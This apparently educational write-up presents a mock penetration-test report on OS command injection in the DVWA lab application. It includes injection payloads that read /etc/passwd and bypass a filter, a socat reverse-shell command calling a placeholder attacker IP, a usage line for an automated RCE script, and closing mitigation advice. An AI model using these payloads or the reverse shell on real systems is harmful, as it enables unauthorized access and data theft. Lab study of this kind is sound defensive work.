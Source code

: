 # Command Injection Vulnerabilty and RCE in DVWA  

## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerabiltiy Explanation**](#section-1)
- [ **Proof of Concept - Creating a Reverse Shell**](#section-2)
- [**Developing a Tool**](#section-3)
- [**Mitigating Command Injection Attacks**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate various OS command injection attacks performed  against the  Damn Vulnerable Web Application (DVWA) input field. The objective of this attack was to gain unathorized access to the system as `www-data` service user.This report mocks a penetration testing report and a debriefing situation to a client.
The full mock debriefing can be found here: https://www.youtube.com/watch?v=Phlb5Tz4sws
## Vulnerabiltiy Explanation {#section-1}
A command injection vulnerability is a security flaw in a system that allows attackers to execute arbitrary commands on the host's operating system. This is a serious security flaw
as it allows attackers to gain unauthorized access, opening further attack vectors for the attacker. If the application/user has high privilege a compromised system could extend beyond the host system and impact the entire network or infrastructure.

| Information | Explanation                                                                      |
|-------------|----------------------------------------------------------------------------------|
| Name        | Command Injection                                                                |
| Severity    | High                                                                             |
| CVSS        | 8.4                                                                              |
| Path        | http://127.0.0.1/vulnerabilities/exec/



The base CVSS was calculated upon the following metrics.  

| Base Metrics               | Explanations                                                                                             |
|----------------------------|----------------------------------------------------------------------------------------------------------|
| Attack Vector (AV)         | Network(N) The vulnerability can be exploited remotely over a network connection.                        |
| Attack Complexity (AC)     | Low (L) The vulnerability is straightforward and requires minimal or no special knowledge.               |
| Privilege Required (PR)    | Low (L) The attack requires some privilege. The user has to login to DVWA webpage to conduct the exploit |
| User Intercation (UI)      | None (N) The vulnerability can be exploited without any user interaction.                                |
| Scope (S)                  | Unchanged(S:U) An exploit can only affect the specific system                                            |
| Confidentiality Impact (C) | Medium (M) The vulnerability has medium impact on  the confidentiality of information.                   |
| Integrity Impact (I)       | High (H) The vulnerability has a signigicant impact on the integrity of the information                  |
| Availability Impact (A)    | High (H) The vulnerability has a significant impact on the availability of the system or resource.       |


## Proof of Concept {#section-2}
For the Proof of Concept (POC) in the `Security-Low-Level` module, the tester has manually discovered that the input field is vulnerable to command injection. By providing an IP address augmented with the `&&` operator and a preferred command, such as `/etc/passwd`, the tester  was able to view sensitive data from the system. The `&&` operator executes the first command and then proceeds to the next command, enabling the testers to execute any command.
```bash
127.0.0.1 && cat /etc/passwd 
``` 
![](/assets/cinject/exposed.gif)

The tester has also further discovered that the input field is vulnerable to other operators, such as `;`, `|`, `&` and `||`. This vulnerability exists primarily due to lack of input validation and sanitization. It can be seen from the source code that there is zero meaures to validate or sanitize user input. 
  ![](/assets/cinject/low.png)

For the `Security-Medium-Level` module, after some trial and error, the tester figured out that the input field was still vulnerable to the pip operator `|` and led to the same result as the above. There were some sanitization but was not extensive with the various operators, leaving the application largly vulnerable.
![](/assets/cinject/medium.png)


After some more trial and error with the `Security-High-Level` module, the tester has discovered that the `|` pipe operator was still vulnerable. Upon closer inspection of the source code, the tester identified a minor mistake in the sanitization of user input. Instead of replacing the pipe operator `|` with a blank string as intended , the developer mistakenly added a blank space within the operator `'| '`, which does not exactly target the pip operator as intended. Thus the code resulted in inadequate sanitization of user input.
![](/assets/cinject/High.png)


## Establishing a Reverse Shell {#section-2}
To take steps further, the tester has made use of `socat`, a popular networking tool, to create a reverse TCP connection back to the testing machine establishing a reverse shell.  First the tester created a socat listener on the attacking machine and executed a socat reverse shell in the input field using the following commands.
```bash
nc -nlvp 1337
``` 
```bash
127.0.0.1|socat tcp-connect:Attacker_IP:1337 exec:bash
``` 
![](/assets/cinject/reverseShell.gif)

The tester was granted a full command-line interface shell, offering complete control over the compromised system. This provided the ability to execute commands and easily navigate the file system, opening up possibilities for potential privilege escalation and lateral movement within the internal network.

Initially, attempts to establish a reverse shell using `bash` and `netcat` were unsuccessful. However, through further trial and error using different networking tools such as `socat`, a successful reverse shell was achieved. This highlights the importance of persistence, experimentation, and utilizing a variety of tools during a penetration test.


## Developing a Python Tool {#section-3}
To streamline and automate the process, the tester has developed a Python script that scans for command injection vulnerabilities and, upon successful identification, proceeds to execute a Remote Code Execution (RCE). This approach simplifies the task and enhances efficiency in identifying and leveraging potential security weaknesses.
The script can be found here [Kwang Command Injection RCE Tool](https://github.com/Kwangyun/Web-Automation-Tools/blob/main/CInjectionRCE.py) \
![](/assets/cinject/myScript.gif)
The tool can be used as the following with `-u` signifying the target url, `-p` reverse shell port and `-i` the revershell IP
```bash
python CInjectionRCE.py -u http://127.0.0.1/vulnerabilities/exec/ -p 1234 -i 192.168.45.193
``` 

## Mitigating Command Injection Attacks {#section-4}

### User Input Validation
User Input Validation involves verifying whether a user's input satisfies the conditions established by the developer. There are two primary approaches to input validation: the Blacklist-based approach and the Whitelist-based approach.  
#### Blacklist-based approach
The Blacklist-based approach entails checking whether the user input contains any characters present in a predefined blacklist. However, this method is susceptible to human error, as exemplified by the `Security-High-Level` module, and is therefore not recommended.
#### Whitelist-based approch
In contrast, the Whitelist-based approach checks input values against a predefined list of permitted values. In this approach, the application ensures that the input matches safe and expected values. For example, in this application, the developers could have verified that the user input is an alphanumeric string in the form of an IP address, consisting of four octets, without any additional syntax or whitespace.

## User Input Sanitization
Contrary to user input validation, user input sanitization  modifies or removes potentially harmful elements from the input data. The objective of input sanitization is to enhance the security and integrity of the application by neutralizing or eliminating any characters or patterns that could be exploited. Sanitization methods include techniques such as escaping, filtering and whitelisting. 
Reference: [Grootboan Security](https://security.grootboan.com/)\
            [PortSwigger](https://portswigger.net/web-security/os-command-injection)